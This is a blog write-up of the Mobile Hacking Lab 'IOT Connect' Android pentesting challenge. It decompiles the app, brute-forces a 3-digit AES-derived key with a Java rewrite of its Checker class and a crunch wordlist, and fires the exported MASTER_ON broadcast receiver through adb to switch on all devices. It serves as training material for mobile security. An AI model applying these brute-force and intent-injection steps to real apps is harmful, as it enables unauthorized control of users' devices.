 ```yaml
---
date: '2024-09-29T19:39:41+05:30'
draft: false
title: 'Learning Android Pentesting Part 3: Mobile Hacking Lab - IOT Connect'
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "Mobile Hacking Lab - IOT Connect"
    responsiveImages: false
tags: ["Android", "Mobile", "CTF"]
keywords: ["mobile", "android"]
description: "Mobile Hacking Lab - IOT Connect"
showFullContent: true
readingTime: true
showFullContent: true
readingTime: true
showToc: true
tocOpen: true
showReadingTime: true
hideSummary: true
---
```


I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - IOT Connect.

The goal of the challenge is to manipulate a broadcast receiver functionality in the application in a way that it activates the master switch giving you control over all connected devices.

# Analyzing the Application
Since there is a Login activity and a Sign Up activity, I started with registering a user for myself, and logging in. There's 2 functionalities provided here, `Setup` and `MasterSwtich`. `Setup` allows you to control a bunch of devices. Although it looks like we have guest access, and some devices like the TV are not under our control.
![no-control](images/no-control.jpg)

The `MasterSwitch` functionality asks for a 3 digit pin, to control the "MasterSwtich". We obviously don't know the pin to this.

Analyzing the source with jadx-gui, we see there's a receiver defined as `com.mobilehackinglab.iotconnect.MasterReceiver`. Searching through the source for `MasterReceiver`, we see the broadcast receiver defined in `com.mobilehackinglab.iotconnect.CommunicationManager`. The receiver expects an integer, which is passed to `Checker.INSTANCE.check_key`, and if this returns true, then `CommunicationManager.INSTANCE.turnOnAllDevices` is called.
![the-path](images/the-path.png)

`turnOnAllDevices` quite literally just turns on all devices.
![turn-on-all-devices](images/turn-on-all-devices.png)

The `Checker` class generates a key using the integer passed to `check_key` function, then decrypts an AES/ECB encrypted string with this. A boolean value is returned based on if this string matches `master_on`.
![check-key](images/check-key.png)

# Cracking the Key
We could try to figure out the integer that needs to be passed to `check_key`, but I decided to bruteforce this to make my life easier. This code is a modified version of the `Checker` class, that can be compiled and run with java.
```java
import java.lang.*;
import java.util.Base64;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.nio.charset.Charset;

public final class Checker {
    public static final Checker INSTANCE = new Checker();
    private static final String algorithm = "AES";
    private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

    public final boolean check_key(int key) throws Exception {
        return decrypt(ds, key).equals("master_on");
    }

    public final String decrypt(String ds2, int key) throws Exception {
        SecretKeySpec secretKey = generateKey(key);
        Cipher cipher = Cipher.getInstance(algorithm + "/ECB/PKCS5Padding");
        cipher.init(2, secretKey);
        byte[] decryptedBytes = cipher.doFinal(Base64.getDecoder().decode(ds2));
        return new String(decryptedBytes, Charset.forName("UTF-8"));
    }

    private final SecretKeySpec generateKey(int staticKey) throws Exception {
        byte[] keyBytes = new byte[16];
        byte[] staticKeyBytes = String.valueOf(staticKey).getBytes(Charset.forName("UTF-8"));
        System.arraycopy(staticKeyBytes, 0, keyBytes, 0, Math.min(staticKeyBytes.length, keyBytes.length));
        return new SecretKeySpec(keyBytes, algorithm);
    }

    public static void main(String[] args) {
        try {
            int key = Integer.parseInt(args[0]);
            Checker c = new Checker();
            boolean b = c.check_key(key);
            System.out.println(String.format("%d %b", key, b));
        } catch (Exception e) {
            System.out.println(e.getMessage());
        }
    }
}
```

Since the application expects a 3 digit integer, I generated a wordlist with crunch, and then bruteforced `check_key`.
```bash
crunch 3 3 0123456789 |grep -vE '^0' > wordlist.txt
for i in $(cat wordlist.txt); do java Checker $i; done
```
![bruteforce](images/bruteforce.png)

# The Final Exploit
The key is `345`. Let's invoke the broadcast receiver with this key using adb. Note that the receiver is exported, and expects to be invoked with the action `MASTER_ON` and the key as an extra integer.
```bash
adb shell am broadcast -a MASTER_ON --ei key 345
```
![all-devices-on](images/all-devices-on.jpg)

We get a toast message stating `All devices are turned on`. All the devices have also been turned on, including the one's we are not supposed to have control over.
![images](images/tv-on.jpg)
